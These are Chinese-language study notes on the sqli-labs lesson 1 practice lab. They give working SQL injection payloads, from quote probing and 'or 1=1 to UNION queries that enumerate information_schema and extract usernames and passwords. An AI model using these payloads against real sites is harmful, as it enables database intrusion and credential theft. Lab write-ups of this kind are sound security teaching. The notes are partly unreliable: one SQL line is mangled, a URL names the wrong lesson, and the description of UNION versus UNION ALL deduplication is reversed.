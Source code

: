###
sqli-labs 学习笔记

##
lession-1

我们可以在http://127.0.0.1/sqllib/Less-5/?id=1后面直接添加一个 '
我们可以看到提交到sql中的1'在经过sql语句构造后形成 '1'' LIMIT 0,1，多加了一个 ' 。这种方式就是从错误信息中得到我们所需要的信息，那我们接下来想如何将多余的 ' 去掉呢
尝试 'or 1=1--+
此时构造的sql语句就成了
Select ****** where id='1'or 1=1--+' LIMIT 0,1

最后从源代码中分析下为什么会造成注入？
Sql语句为sql="SELECT∗FROMusersWHEREid=′id' LIMIT 0,1";
Id参数在拼接sql语句时，未对id进行任何的过滤等操作，所以当提交 'or 1=1--+，直接构造的sql语句就是
SELECT * FROM users WHERE id='1'or 1=1--+ LIMIT 0,1
这条语句因or 1=1 所以为永恒真。

union联合注入，union的作用是将两个sql语句进行联合。Union可以从下面的例子中可以看出，强调一点：union前后的两个sql语句的选择列数要相同才可以。Union all与union 的区别是增加了去重的功能。我们这里根据上述background的知识，进行information_schema 知识的应用。
http://127.0.0.1/sqllib/Less-1/?id=-1'union select 1,2--+
当id的数据在数据库中不存在时，（此时我们可以id=-1，两个sql语句进行联合操作时，当前一个语句选择的内容为空，我们这里就将后面的语句的内容显示出来）此处前台页面返回了我们构造的union 的数据。

爆数据库
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(schema_name),3 from information_schema.schemata--+ LIMIT 0,1

爆security数据库的数据表
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1

爆users表的列
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27users%27--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+ LIMIT 0,1

爆数据
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,username,password%20from%20users%20where%20id=2--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,username,password from users where id=2--+ LIMIT 0,1
